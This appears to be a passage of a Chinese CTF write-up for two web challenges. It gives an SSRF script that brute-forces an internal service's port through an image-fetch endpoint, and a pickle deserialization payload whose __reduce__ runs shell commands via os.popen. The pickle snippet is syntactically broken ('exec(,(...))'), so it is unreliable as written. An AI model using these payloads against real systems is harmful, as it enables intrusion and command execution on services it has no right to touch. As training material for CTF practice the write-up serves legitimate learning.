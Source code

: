
关键部分，这里可以看到，端口随机开的。怀着愧疚之心狠狠的爆破了一下，因为内部外部云在同一目录，所以利用外部云的url访问内部云

通过回显不同，发现内部云跑在了`5043`端口

```python
if __name__ == '__main__':
    if not os.path.exists(UPLOAD_FOLDER):
        os.makedirs(UPLOAD_FOLDER)
    port = find_free_port_in_range(5001, 6000)
    app.run(host='0.0.0.0', port=port)
```

简单爆破脚本，内部云的路径是随便写的，能返回`无法加载图片: 404 Client Error: NOT FOUND for url: http://localhost:5122/uploads/flag`和`无法加载图片: HTTPConnectionPool(host='localhost', port=5432): Max retries exceeded with url: /uploads/flag.jpg (Caused by NewConnectionError(': Failed to establish a new connection: [Errno 111] Connection refused'))`或者静态目录下存在的文件，可以确定端口，
回显可以区别开就行

```python
import time
import requests


for i in range(5000,6000):
    url = f"http://127.0.0.1:60084/image?url=http://localhost:{i}/static/0_11.png"
    resp = requests.get(url)
    print(resp.text)
    time.sleep(0.1)
```

![24](https://the0n3.top/medias/moectf/24.png)

![25](https://the0n3.top/medias/moectf/25.png)

## PetStore

太强了太强了！！做起来太爽了，强烈强烈强烈强烈建议这题拿到附件在本地跑一下，用pycharm打断点，看看反序列化哪里问题，不然根本看不出来。


讲一下官方做法，通过反序列化执行命令，直接命令执行利用`store.create_pet()`方法，把命令执行的结果作为`pet`对象的参数传进去了


```python
import pickle
import base64


class A():
    def __reduce__(self):
        return exec(,("import os;store.create_pet(os.popen('ls').read(),'flag')"))

pet = A()
serialized_pet = pickle.dumps(pet)
print(serialized_pet)
```
